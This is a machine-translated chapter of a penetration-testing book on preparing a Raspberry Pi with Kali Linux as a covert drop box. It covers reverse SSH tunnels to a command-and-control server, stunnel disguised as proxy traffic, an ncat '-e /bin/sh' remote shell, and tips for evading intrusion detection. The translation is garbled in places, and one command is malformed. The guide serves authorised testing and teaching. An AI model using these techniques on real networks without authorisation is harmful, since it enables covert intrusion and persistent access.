# 二、备战

尽管 Raspberry Pi 3 比其前身有了巨大的改进，但它仍然应该被视为一个动力不足的安全评估平台。这就是说，它被设计成一种低成本、超便携的计算机，主要面向教育者和爱好者。这使得它在秘密、现场渗透测试和其他谨慎的活动中具有优势。本章的重点将是如何准备运行 Kali Linux 的 Raspberry Pi（或其他平台），以便在渗透测试的所有阶段进行管理访问和连接。

本章将介绍以下主题：

*   使用命令和控制服务器
*   准备渗透测试
*   设置 SSH 服务
*   SSH 默认密钥和管理
*   通过 SSH 反转 shell
*   使用 stunnel 和其他隧道协议
*   设置远程 GUI 访问
*   超频
*   设置无线接口
*   设置蓝牙接口
*   设置 3G USB 调制解调器
*   以一个例子结束

# 指挥控制服务器

在本书的第一版中，使用了树莓皮 B+，受单个内核的限制，运行速度要低得多，甚至超频。随着本书中使用的 Raspberry Pi 3，我们现在有四个运行在 1GHz 以上的内核和四倍以上的 RAM 可供使用，因此 Pi 本身当然可以处理更多的工具和工作负载。尽管如此，我们还是建议尽可能预算我们的资源并利用离线计算，因为更复杂的渗透测试可以受益于多传感器（PI）和更高性能的计算，从而有效地关联数据。我们将在[第 5 章](5.html#ch05 "Chapter 5.  Taking Action - Intrude and Exploit")、*采取行动–入侵和利用*中介绍调整过滤捕获的数据。

当计划远程访问多个 Raspberry Pi 系统时，我们建议设置一个中央（**C&C**或**C2**命令和控制（C&C 或 C2）服务器，而不是单独访问每个盒子。C&C 服务器可能是一个功能更强大的系统，因此它可以专注于 CPU 密集型任务，例如通过暴力破解密码。更重要的是，任务还可以包括使用 C&C 服务器执行实际的分析和攻击，而不是在 Raspberry Pi 上本地执行。例如，网络钓鱼攻击将攻击 Raspberry Pi 的用户流量发送到 C&C 服务器，以分析漏洞和攻击。C&服务器数量很多 C 可能使用的方法，并且建立所有这些方法都超出了我们在本书中介绍的范围。

# 准备渗透试验

我们在[第 1 章](1.html#ch01 "Chapter 1. Choosing a Pen Test Platform")*选择渗透测试平台*中介绍的 Kali Linux ARM 映像已经针对树莓 Pi 2 或 3 进行了优化。然而，我们发现建议执行一些额外的步骤，以确保我们在最稳定的模式下使用 Kali Linux，从而避免 Raspberry Pi 崩溃。步骤如下：

1.  我们首先建议按照[第 1 章](1.html#ch01 "Chapter 1. Choosing a Pen Test Platform")*选择渗透测试平台*中的详细说明执行操作系统更新。我们不会在这里重复这些步骤，因此如果我们没有更新操作系统，请返回[第 1 章](1.html#ch01 "Chapter 1. Choosing a Pen Test Platform")、*选择渗透测试平台*并按照说明操作。
2.  The next step we should perform is to properly identify our Raspberry Pi. The Kali Linux image ships with a generic hostname. To change the hostname, we'll use the Linux editor of our choice (seriously, any one will do; even if we are a fan of nano - this is a judgement-free zone) to edit `/etc/hostname` . The only thing in this file should be our hostname. We can see in our example that we are changing our Pi's hostname from Kali to **Kali_Pi** :

    

3.  We will also want to edit the `/etc/hosts` file to modify the hostnames. This can also be done using our favorite editor. We want to confirm whether our hostname is set correctly in our hosts file. The following screenshot shows how we changed our default hostname from Kali to **Kali_Pi** :

    

4.  Make sure we save the files after making edits. Once saved, we'll reboot the system. We will notice the hostname has changed and will be reflected in the new command prompt.

    ### 提示

    在黑盒测试环境中，使用诸如`XRX_2344`（打印机）或`CP-8845`（电话）等常用名称作为融入网络的手段可能是有益的。

# 设置 SSH 服务

**安全外壳**（**SSH**允许我们从远程位置完全访问 Raspberry Pi 上的 Kali Linux 操作系统。这是使用命令行管理 Linux 系统最常见、最安全的方法。由于大多数渗透测试练习都不需要 Kali Linux GUI，因此我们建议尽可能使用 SSH 或命令行实用程序。我们发现一些 Kali Linux 安装启用了 SSH，而其他安装可能需要我们安装 OpenSSH 服务器：

1.  我们需要验证是否安装了 SSH 服务。我们可以通过输入`service --status-all`命令来检查 SSH 服务是否正在运行。如果我们看到**+**，如下面的截图所示，我们就可以开始了。如果我们看到一个符号，那么我们需要安装 OpenSSH 服务器。
2.  To install OpenSSH, we type `apt-get install openssh-server` :

    

3.  一旦安装完成，我们就可以确保它是一个持久的进程，这意味着它将在所有重新启动时启用。我们通过如下方式删除并重新配置运行级别来实现此目的，以便 SSH 自动启动：
    *   首先，使用`update-rc.d -f ssh remove`删除当前运行级配置
    *   现在，使用`update-rc.d -f ssh defaults`确保 SSH 自动启动此运行级别

# SSH 默认密钥及管理

系统部署方式中的一个主要安全缺陷是使用默认或工厂安装的密钥和证书。虽然这些类型的缺陷对渗透测试人员来说是一个福音，但我们需要确保我们不会成为目标可能成为我们手上的受害者的相同漏洞的受害者。Linux 发行版（以及大多数制造的设备）默认使用工厂密钥。我们必须改变自己的钥匙，以确保我们不会成为任何具有法医知识的调查人员或对手的猎物，他们能够并且将访问我们的数据，以确定谁种植了覆盆子皮。让我们不要让他们容易。我们可以通过备份旧密钥，然后按如下方式建立新密钥来实现此目的：

1.  我们将创建一个新目录，然后将旧密钥移动到其中进行存储：

    ```
    cd /etc/ssh

    mkdir backup_keys

    mv ssh_host_* backup_keys

    ```

2.  Then we can generate new keys for SSH and all dependent services by typing `dpkg-reconfigure openssh-server` , as seen in the following screenshot:

    

3.  我们默认下载的 Kali Linux for Pi 映像允许通过 SSH 进行 root 登录，但如果我们使用的是不同的平台，则需要通过编辑`sshd_config`文件并确保将`PermitRootLogin without-password`更改为`PermitRootLogin yes`来启用 root 登录。
4.  We can now restart SSH to ensure it is ready to receive incoming terminal sessions by typing the `service ssh restart` command and then ensure it is running for all run-levels with the `update-rc.d -f ssh enable 2 3 4 5` command:

    

现在，我们应该能够通过命令行远程访问服务器-有趣的东西！

# 通过 SSH 反向 shell

Raspberry Pi 小巧的外形使其成为一个出色的平台，可在客户环境中进行隐蔽或不显眼的部署。许多组织都有安全措施来阻止传入连接，目的是防止后门进入其网络。在白盒评估中，我们可能会明确地打开防火墙，以允许 SSH 连接到我们的 Raspberry Pi，如下图所示。坏消息是，即使从政策角度来看这是可能的，但在处理多个管理控制下的多个站点时，可能很难实现。无论如何，作为渗透测试的第一步，突破外围防御会产生很多噪音，让我们要么沮丧，要么找工作。那么，在野外，我们如何与内部的树莓皮 3 进行交流呢？

我们可以利用这样一个事实，即大多数组织在默认情况下不会将其安全设备上的出站流量限制到其入站流量受到限制的程度。Linux 主机实际上可以通过反向 shell 为我们打开大门，这非常容易执行。

由于 Kali Linux 是一个功能齐全的 Linux 操作系统，我们可以通过 SSH 控制整个环境。虽然传入的 SSH 连接可能会被防火墙或其他安全解决方案阻止，但是反向 SSH 对于我们管理运行 Kali Linux 的 Raspberry Pi 来说是一个很好的选择。

在反向连接中，客户端连接并启动到服务器的连接，而不是服务器连接到客户端。在这两种情况下，服务器都控制客户端。这与许多后门程序的技术相同。出于我们的目的，我们将使用它作为一个管理实用程序—我们自己的 C&C 连接。

### 注

许多入侵检测和预防解决方案都可以基于看起来不同的网络流量检测 SSH，而不考虑端口。例如，使用端口`443`看起来仍然与普通 HTTPS 通信不同。

我们将使用`ssh`命令中的`-R`开关创建到侦听器的反向连接。侦听器是侦听以接受反向 SSH 连接的设备。在我们的例子中，C&C 服务器是侦听器。远程主机（Raspberry Pi）上使用的命令语法为`ssh -R [bind_address:]port:host:hostport`。

`-R`开关指定远程端将要连接的端口或它将如何启动连接。换句话说，我们需要选择一个远程 Raspberry Pi 能够连接的端口。大多数组织没有严格的出站筛选策略，这使得这种方法比标准 SSH 连接更有效。我们发现常见的开放端口有 TCP 端口`22`、`80`、`443`或`53`，这意味着客户端可以使用这些端口自由连接到外部世界。

### 注

严格的出站协议检查设备，如下一代防火墙、下一代**入侵防御系统**（**IPS**）和高级代理服务器可能会阻止这些类型的连接。

**主机端口**是我们的 Raspberry Pi 上的端口，该端口设置了监听服务。在我们的例子中，我们运行的是 SSH 服务器，因此主机端口默认为`22`。我们可以将默认端口更改为更隐蔽的端口或利用*stunnel*，这将在本章后面介绍。我们需要的端口将是 TCP 端口，服务器正在接受来自 Raspberry Pi 的传入连接。hostport 是服务器运行 SSH 服务的端口。我们使用了一个非根主机名，因为在没有两层身份验证的情况下，可能不建议通过前端访问完整的根。

在我们的 Raspberry Pi 示例中，我们输入以下命令：

```
ssh -fN -R 7000:localhost:22 username@ip-address-of-our-
command-and-control-server

ssh -fN -R 7000:localhost:22 mike@10.5.8.57

```

这假设端口`7000`被允许从我们的 Raspberry Pi 所连接的网络中退出。如果不起作用，请尝试不同的端口。我们也遇到了一些间歇性的问题，在早期的安装任务中私钥的权限发生了变化，并导致了问题——如果我们遇到这些问题，我们应该确保我们的帐户拥有它们的密钥，并且`ssh`可以看到它们。大多数组织将允许出站端口`443`和`8443`。如果我们不确定使用哪个端口，我们也可以使用 Nmap 来查找一些漏洞。我们将在后面的章节中讨论 Nmap。

下图描述了如何使用端口`443`：


要使用 Raspberry Pi 上的其他端口重试，请使用以下命令：

```
ssh -fN -R 8443:localhost:mike@10.5.8.69

```

系统会提示我们输入该 C&C 服务器的本地帐户密码，一旦我们输入密码，进程就进入后台，我们再次收到命令提示。

在 C&C 中央服务器上，我们将打开一个命令行终端并输入以下命令：

```
ssh root@localhost -p 8443

```

现在提示我们输入根密码。我们可以从上一个命令行示例中看到，命令提示符已更改。我们现在在远程服务器上，完全控制 Raspberry Pi，如以下屏幕截图所示：



### 注

我们需要确保 OpenSSH 服务器已安装并正在运行，否则此过程将失败。我们很可能会看到连接被拒绝的错误消息导致失败。同样重要的是，我们修改了启动变量，使 Raspberry Pi 在重新启动后运行 SSH。

这种技术被称为反壳隧道。让我们选择任何端口作为源端口，例如端口 53，它与 DNS 相同，或者端口 80 使用与 HTTP 相同的端口。重要的是要记住，更改端口号并不一定意味着我们正在更改底层协议。如果 IPS 能够明智地做到这一点，我们需要一些更隐蔽的东西。

# SSL 隧道

许多管理员将使用 IDS/IPS 等检测技术来检测和阻止打开的 VPN 连接。我们可以采用的一种方法是利用 SSL 隧道包或代理。当本书第一版中使用了*特技*时，我们评估了几种备选方案，如**sslh**、**ncat**、**cryptcat**、**hitch**、**ptunnel**和**nginx**，如果 stunnel 不能满足我们的需要。虽然每一个都源于不同的用例（即，使用*HAProxy*实现服务器负载平衡），但只要付出一些努力，所有这些都可以通过将隐蔽负载隐藏在另一个 SSL（或其他良性协议）信封中，在 TCP 客户机和服务器之间创建安全通信。每个包都是通过使用行业标准的加密库（如 OpenSSL 或 ping）来实现的。这些工具之所以对我们有用，是因为它们在不改变程序代码的情况下，为常用的守护进程和服务添加了不同级别的隐私和功能，从而为我们提供了许多潜在的应用程序，让我们可以躲在幕后寻找光明。

## 特技演员

本书第一版介绍的*特技*仍然是这项特定工作的更好工具之一。因此，建议我们在我们的武库中有几个其他选项，以确保如果我们的目标环境已经关闭了这种可能性，我们的工具不会受到限制。我们将首先配置 stunnel，然后为其他传输方法提供一些有希望的候选方法，以帮助我们在目标环境中维护对资产的访问和控制。

### 服务器

1.  我们将继续使用`apt-get install stunnel4 -y`命令安装 stunnel。
2.  Next, we'll create the necessary keys to ensure we properly encrypt the connection between the server and client in this relationship using the following commands:

    ```
    cd /etc/stunnel/

    openssl genrsa -out key.pem 2048

    openssl req -new -x509 -key key.pem -out cert.pem -days 1095

    ```

    ### 提示

    我们将根据需要完成证书的字段，这样我们就可以得到一个非常不可描述的证书，它可以用来保护我们的通信安全，但不会泄露我们的意图。

    ```
    cat key.pem cert.pem >> /etc/stunnel/stunnel.pem

    sudo bash

    chmod 400 /etc/stunnel/stunnel.pem

    ```

    

    ### 注

    在所有这些乐趣之后，我们最终得到了一个闪亮的新证书，我们现在可以在我们的安全通信中使用它，名为`/etc/stunnel/stunnel.pem`。

3.  Now we'll enable stunnel to operate by using the command nano `/etc/default/stunnel4` , where we want to change ENABLED = 0 to `ENABLED = 1` as follows:

    

4.  We'll now configure a bulk of the *stunnel* parameters in the `/etc/stunnel/stunnel.conf` file. Here is how we get the values we do:
    *   `client = no`告诉 stunnel，它在本例中充当服务器。
    *   我们希望确保指向上面用 cert 行生成的共享证书，因为服务器和客户端都希望引用该证书以正确地相互验证。
    *   `accept`地址定义了服务器将监听的 IP，端口号将用于通过观察 IPS 传感器来模拟我们的活动（本例中使用了 Squid 代理，但我们可以使用 POP3、IMAP、MySQL 等）。
    *   `connect`IP 几乎总是我们的环回，与之相关的端口将根据我们实际做的事情而有所不同——这是我们正在保护的实际流量。如果我们想要 ssh，就像我们在这里做的那样，我们将选择`22`：

    ```
     [squid] 
                client = no 
                cert = /etc/stunnel/stunnel.pem 
                accept = 10.5.8.74:8888 
                connect = 127.0.0.1:22

    ```

    

5.  如果我们正在运行 IPtables，我们还可以通过使用命令`nano /usr/local/bin/Firewall.sh`并在下面的行中输入：

    ```
    iptables -A INPUT -p tcp -dport 8888 -j ACCEPT

    ```

    来添加防火墙设置（IPtables 是 Kali 发行版的一部分，但不是预配置的）
6.  下一步是通过发出`/etc/init.d/stunnel4 restart`命令重新启动 stunnel 服务。
7.  The final step is installing the Squid proxy on our Kali Linux Raspberry Pi by issuing the `apt-get install squid3 -y` command, and then starting the service with `service squid start` . That last step is important. One of us did NOT do that and spun his wheels thinking stunnel was broken, and it took the other author two minutes to set him straight.

    ### 提示

    杰森是这个团队中最有头脑的人。

我们可能还有其他方式想在不被抓到的情况下进行互动，所以我们应该和他们一起玩。我们应该选择在我们的测试环境中有意义的连接端口，并且我们可以相当肯定这些端口将可用，以及 ssh 作为我们真正的负载。

### 客户

一旦我们在 Raspberry Pi 3 上安装了 Squid 和 stunnel 服务，我们现在需要在 C&C 服务器上安装合适的客户端。在 Windows 计算机上，可以在[找到客户端 https://www.stunnel.org/downloads.html](https://www.stunnel.org/downloads.html) 或在其他镜像站点。对于 Mac OSX，我们可以使用自制软件包管理器并通过位于[的说明安装 stunnelhttp://macappstore.org/stunnel/](http://macappstore.org/stunnel/) ：

1.  现在我们已经完成了安装，我们可以打开 stunnel 安装目录（对于 Mac，通常是`/usr/local/etc/stunnel/`，对于 Windows 机器，通常是`C:\Program Files (x86)\stunnel\config\`），并将我们在 Kali 上创建的`stunnel.pem`证书复制到同一目录中的 Windows/Mac OSX 客户机。
2.  We should then edit the `stunnel.conf` file (the same directory folder as our new certificate) and replace the contents with the following (we'll adjust any port settings we might have changed from our example):

    ```
     [squid] 
            cert = stunnel.pem 
            client = yes 
            accept = 127.0.0.1:8080 
            connect = [Server's Public IP]:8888 

    ```

    

3.  Let's save and close the file. Next, let's launch the application. On a Mac or Linux machine, we'll type `stunnel` to start the application on our C&C client. We can verify `stunnel` is listening for a session on our C&C machine by using `lsof -i :8080` (or whatever port we used). If we were using Windows, we could double-click the **stunnel** application and we would see the configuration page displayed:

    

现在，我们可以使用我们定义的配置的 accept 参数中指定的 IP 地址和端口安全地连接到 Raspberry Pi：


## ncat

**ncat**默认安装在大多数版本的 Kali Linux 上，包括 Raspberry Pi 3 的基本映像。ncat（[https://nmap.org/ncat/guide/index.html](https://nmap.org/ncat/guide/index.html) 为我们提供了一个极好的工具来维护对我们自己的机器的访问，事实上，在我们的测试过程中，可以在目标主机上使用它来维护访问。双方都需要安装 ncat。Linux 本机支持它，而 windows 和 Mac OSX 则需要从源代码或在 Web 上轻松搜索的开放项目安装它们的版本。一旦可用，它可以在两个方向上使用，但是考虑到我们在访问目标网络之后，我们将按如下方式使用它。

在我们的 C&C 节点上，我们可以使用命令`ncat -l <listening port>`轻松侦听 Raspberry Pi 的出站会话，其中`-l`后面的数字定义了我们的侦听端口。

在 Raspberry Pi 3（或目标）节点上，我们可以通过在以下命令中引用该会话来简单地侦听该会话：`ncat <ip address of target> <listening port> -e /bin/sh`。`-e`后面的选项定义了我们正在使用的 shell 或希望运行的命令，在这种情况下，它几乎总是我们的默认 shell。

## 隧道等技术

**ptunnel**是一个非常好的工具，可以通过隧道穿越限制性极强的环境，因为它们严重限制了大多数其他工具所依赖的 TCP 和 UDP 流。在那些更健壮的传输失败的地方，ICMP 是一个小引擎，我们当然可以通过 ICMP PING（ECHO）和 ECHO-REPLY 包利用隧道，如果其他所有的都失败了。《卡利 Linux——通过渗透测试确保安全》、*Packt Publishing】*（由 Tedi Heriyanto、Lee Allen 和 Shakeel Ali 撰写）一书为这些其他隧道协议及其使用提供了极好的入门知识。同样，对于本书来说，工具和用例的数量太多了，但好消息是我们有很多选择！

# 使用 GUI

虽然渗透测试可以通过独家使用 CLI 来完成，但 Pi 3 的新增功能允许我们远程使用 Kali 的 X11 Windows 功能。我们建议将此限制为培训和初始系统配置，以限制进出 Pi 的流量，避免引发怀疑。

考虑到这一点，我们将在这里介绍两种基本方法：

*   我们的主要方法（也是本书中最有用的方法）是通过 SSH 将 X-Windows 会话传输到我们的笔记本电脑/台式机，从中我们可以指挥我们的攻击。通过使用这种方法，我们能够使用 SSH 保护会话，并且使用更少的带宽，因为 X-windows 会话只在需要的时间内传输感兴趣的应用程序。
*   我们的第二种方法是通过 RDP 或 VNC 移植整个桌面。这种方法虽然更受 Linux 学习者的欢迎，但会消耗更多带宽，并且依赖于实现者（用户）来确保安全性。

我们将通过快速而肮脏的方式启动并运行这两种类型的访问。对于主 X-windows 访问，我们将使用 Xming（对于 windows）和 SSH-X（对于 Mac 或 Linux）。为了获得完整的 GUI 体验，我们将使用 VNC，因为我们遇到了许多细微差别和困难，使得使用 Xrdp 之类的包的 RDP 成为一个更加个性化的任务。

## 通过 SSH 传输 X

如果我们在 Windows 中工作，建议从[下载**Putty**作为 SSH 客户端 http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html](http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html)。免费的 X 窗口服务器名为**XMing**（[https://sourceforge.net/projects/xming/](https://sourceforge.net/projects/xming/) 与 Putty 集成得相当好，它们将共同支持远程 X Windows 会话。在安装了这两个应用程序之后，我们将开始 Xming 和 Putty，并像往常一样在 Putty 中配置 SSH 会话。

SSH 是一个基本工具，为我们提供对远程系统（如 Raspberry Pi 3）的受保护终端访问。我们将在接下来的几乎所有任务中使用它。通常，这些通信将通过 TCP 端口`22`进行，因此我们需要确保在端口`22`上进行 SSH 会话，除非我们更改了默认设置。无论哪种方式，双方（服务器和客户端）都需要匹配。这是我们的系统，可能需要为我们的服务器更改端口。

接下来，我们将导航到**连接****SSH****X11**并选中**启用 X11 转发**旁边的复选框。让我们将**远程 X11 身份验证协议**保留为其默认值（**MIT-Magic-Cookie-1**：


我们可能需要保存此会话（我们可以导航到**会话**，在**已保存会话**字段中输入名称，然后单击**保存**。之后，我们只需加载会话即可调用这些设置：



设置完成后，我们像以前一样使用 SSH 登录 Raspberry Pi 3，然后通过运行基于 GUI 的工具 gparted（在下一个会话中安装）进行测试：



如果我们使用的是 MacOSX，那么就需要 X11 支持。虽然我们很幸运地在旧的 MacOSX 版本中获得了本机支持，但从 10.6.3 版开始，它就作为默认 Apple 软件包的一部分被停止使用。不用担心，我们可以从[安装**XQuartz**（许多其他软件包的先决条件）https://www.xquartz.org/](https://www.xquartz.org/) 。Linux 或 FreeBSD 当然构建在 System5/BSD 根目录之上，因此本机支持 X windows。

那么，我们需要使用什么特殊配置？我们可以简单地将`-X`修饰符添加到`ssh`命令中：

```
ssh -X <username>@<remote IP or FQDN>

```

看到我们在那里做了什么吗？如果我们使用 iTerm2、ZTerm 或其他一些终端程序，通过 SSH 回程 X Windows 并进一步保护和隐藏我们的会话是非常容易的，对于我们正在学习的工具，我们可以获得 GUI 的便利，正如下面的屏幕截图所示：



无论平台如何，一旦配置了 X forwarding，我们就可以远程启动基于 GUI 的应用程序，并在本地桌面上查看它们，这将引导我们进入下一个主题。。。

## VNC 与 RDP

当我们希望在远程设备（如 Raspberry Pi 3）上获得完整的 GUI/桌面体验时，能够使用 VNC 和 RDP 等工具来实现这一点是很有帮助的。我们在 RDP 设置上遇到了问题，这是一个耻辱，因为在大多数其他平台上，由于 RDP 的速度和质量，它往往成为我们提供远程桌面的首选模式。在撰写本文时，似乎有很多人在抱怨如何修复 RDP 和 xRDP 包，并寻求答案。

然而，VNC 有很多选择。我们安装了**TightVNC**服务器作为我们的 go-to 软件包，只需稍加努力，我们就拥有了远程桌面视图。以下是我们用来启动和运行它的步骤：

1.  我们安装了 TightVNC（[http://www.tightvnc.com/ 使用`apt-get install tightvncserver`的](http://www.tightvnc.com/)服务器包。
2.  We then kicked off our first VNC session using the `vncserver :1` command. We could select another number, but bear in mind that 0 is reserved for the local X session. The initiation then asks us to create a password for these sessions, and even lets us select a separate **view-only password** if we need it. We'll skip the **view-only password** here:

    

3.  We verify that it is up and running by using the trusty `netstat` command:

    

4.  现在我们在这里使用一些样式点。TightVNC 提供了一个查看器，但每个 C&C 平台都有过多的选项和个人最爱，如 MacOSX 程序 Chicken（[https://sourceforge.net/projects/chicken/files/](https://sourceforge.net/projects/chicken/files/) 或 freemium（应用内购买免费）Windows 客户端，如 RealVNC（[https://www.realvnc.com/](https://www.realvnc.com/) ）也很流行。无论哪种方式，如果我们还没有安装一个，我们将进入配置。现在有吗？好的
5.  We'll now access the VNC viewer and enter in the appropriate information. Keep in mind that we used session `1` , so the port we are looking for is 5900+session number, or **5901** in our case:

    

6.  Now we'll just hit **Connect** , and viola! We've got our remote desktop:

    

